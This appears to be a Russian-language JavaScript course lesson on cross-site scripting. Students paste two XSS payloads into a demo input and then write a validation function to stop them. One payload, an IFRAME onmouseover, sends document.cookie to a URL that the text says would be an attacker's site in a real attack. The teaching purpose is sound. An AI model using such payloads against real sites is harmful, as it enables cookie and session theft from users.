 # <img src="https://avatars2.githubusercontent.com/u/19735284?s=40&v=4" width="30" title="Ⓒ Irina Fylyppova ( garevna ) 2019"/> XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
```
( вместо "C" используется "X", чтобы не было путаницы с CSS )
```
    Внедренный код будет выполняться на компьютере пользователя
    Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера
```
Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода
```
[:link: Перейдите по ссылке](https://garevna.github.io/js-samples/#03 'target=_blank')

Откройте  `Chrome DevTools`

Установите точки останова  ( breakpoints ) для того, чтобы
пошагово отслеживать выполнение кода и
вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IMG SRC="images/hack.png"
     onerror="document.write ( String.fromCharCode ( 88, 83, 83) )"/>
```
это довольно безобидная "атака", которая просто перезапишет содержимое body

2. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IFRAME SRC=js/attack.html
        onmouseover="window.open ( 'https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self' )">
</IFRAME>
```
`( с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем )`

Обратите внимание, что вместо ссылки ☕ ~~https://garevna.github.io/js-samples/js/attack.html~~

в реальной атаке будет ссылка на сайт ( страницу ) хакера

## 💼

В панели навигации откройте файл **js/index03.js**

Обратите внимание на функцию валидации ввода пользователя  ( **testUserText** )

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "*XSS атака отражена*" с указанием текущей даты и времени

***
[:link: securitylab](https://www.securitylab.ru/analytics/432835.php)
[:link: websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)

_________________________________________________________________________

![](https://github.com/garevna/js-course/raw/master/images/a-level-ico.png?raw=true)
